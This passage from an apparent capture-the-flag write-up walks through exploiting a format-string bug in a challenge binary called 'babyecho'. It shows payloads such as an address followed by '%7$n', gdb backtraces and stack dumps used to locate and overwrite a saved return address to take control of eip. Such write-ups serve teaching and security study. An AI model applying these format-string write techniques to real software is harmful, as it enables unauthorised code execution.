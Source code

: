 1023 bytes is pretty good! That's plenty of room to build a full exploit.

<h2>Controlling eip</h2>

The next step is to control eip - the instruction pointer, or the thing that says which instruction needs to run. Once we control eip, we can point it at some shellcode (code that gives us full control).

The easiest way to control eip is to overwrite a return address. As we learned somewhere wayyyyyyy up there, return addresses are stored on the stack the same way the length value was stored. And we can find it the same way - just go to where it crashed and find it.

We'll use the same ol' value to crash it:

<pre>
$ <span class='in'>ulimit -c unlimited</span>
$ <span class='in'>echo -e 'AAAA%7$n' | ./babyecho</span>
Reading 13 bytes
Segmentation fault (core dumped)
$ <span class='in'>gdb ./babyecho ./core</span>
...
(gdb) <span class='in'>bt</span>
#0  0x08080c2a in ?? ()
#1  0x08081bb0 in ?? ()
#2  0x0807d285 in ?? ()
#3  0x0804f580 in ?? ()
#4  0x08049014 in ?? ()
#5  0x0804921a in ?? ()
#6  0x08048d2b in ?? ()
</pre>

"bt" - or "backtrace" - prints the list of functions that were called to get to where you are. The call stack. If we can find any of those values on the stack, we can overwrite it and win. I arbitrarily chose 0x08081bb0 and found it at 0xffffa054, but it didn't work. Rather than spend a bunch of time troubleshooting, I found 0x0807d285 instead:

<pre>
(gdb) <span class='in'>x/10000xw $esp</span>
0xffff9420:     0xffff94b0      0x00000000      0x0000001c      0x00000000
0xffff9430:     0x00000000      0x00000000      0x00000000      0x00000000
0xffff9440:     0x0000000d      0x00000000      0x00000000      0x0000000a
...
0xffffc140:     0x080ea200      0x080ea00c      0xffffc658      <span class='in'>0x0807d285</span>
</pre>

It's stored at 0xffffc14c. Let's try changing it to something else:

<pre>
$ <span class='in'>echo -e '\x4c\xc1\xff\xff%7$n' | ./babyecho</span>
Reading 13 bytes
....Segmentation fault (core dumped)
$ <span class='in'>gdb -q ./babyecho ./core</span>
Core was generated by `./babyecho'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x00000004 in ?? ()
</pre>
